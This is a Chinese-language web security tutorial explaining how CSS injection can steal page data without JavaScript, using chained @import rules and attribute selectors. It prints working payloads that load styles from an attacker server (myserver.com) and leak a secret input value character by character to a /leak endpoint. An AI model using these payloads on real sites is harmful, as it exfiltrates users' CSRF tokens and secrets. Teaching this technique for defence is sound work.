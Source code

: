```yaml
---
sidebar_position: 18
---
```


# 只用 CSS 也能攻擊？CSS injection（下）

在前一篇裡面，我們知道了基本的 CSS 偷資料原理，並且以 HackMD 作為實際案例示範，成功偷到了 CSRF token，而這篇則是要深入去看 CSS injection 的一些細節，解決以下問題：

1. HackMD 因為可以即時同步內容，所以不需要重新整理就可以載入新的 style，那其他網站呢？該怎麼偷到第二個以後的字元？
2. 一次只能偷一個字元的話，是不是要偷很久呢？這在實際上可行嗎？
3. 有沒有辦法偷到屬性以外的東西？例如說頁面上的文字內容，或甚至是 JavaScript 的程式碼？
4. 針對這個攻擊手法的防禦方式有哪些？

## 偷到所有字元

在上集裡面我們有提到，我們想偷的資料有可能只要重新整理以後就會改變（如 CSRF token），所以必須在不重新整理的狀況之下載入新的 style。

上一篇裡面之所以做得到，是因為 HackMD 本身就是一個標榜即時更新的服務，但如果是一般的網頁呢？在不能用 JavaScript 的情況下，該如何不斷動態載入新的 style？

有關於這個問題，在 Pepe Vila 於 2019 年分享的 [CSS Injection Attacks](https://vwzq.net/slides/2019-s3_css_injection_attacks.pdf) 這份簡報裡面給出了解答：[@import](https://developer.mozilla.org/en-US/docs/Web/CSS/@import)。

在 CSS 裡面，你可以用 `@import` 去把外部的其他 style 引入進來，就像 JavaScript 的 `import` 那樣。

可以利用這個功能做出引入 style 的迴圈，如下面的程式碼：

``` css
@import url(https://myserver.com/start?len=8)
```

接著，在 server 回傳如下的 style：

``` css
@import url(https://myserver.com/payload?len=1)
@import url(https://myserver.com/payload?len=2)
@import url(https://myserver.com/payload?len=3)
@import url(https://myserver.com/payload?len=4)
@import url(https://myserver.com/payload?len=5)
@import url(https://myserver.com/payload?len=6)
@import url(https://myserver.com/payload?len=7)
@import url(https://myserver.com/payload?len=8)
```

重點來了，這邊雖然一次引入了 8 個，但是「後面 7 個 request，server 都會先 hang 住，不會給 response」，只有第一個網址 `https://myserver.com/payload?len=1` 會回傳 response，內容為之前提過的偷資料 payload：

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

input[name="secret"][value^="c"] {
  background: url(https://b.myserver.com/leak?q=c)
}

//....

input[name="secret"][value^="z"] {
  background: url(https://b.myserver.com/leak?q=z)
}
```
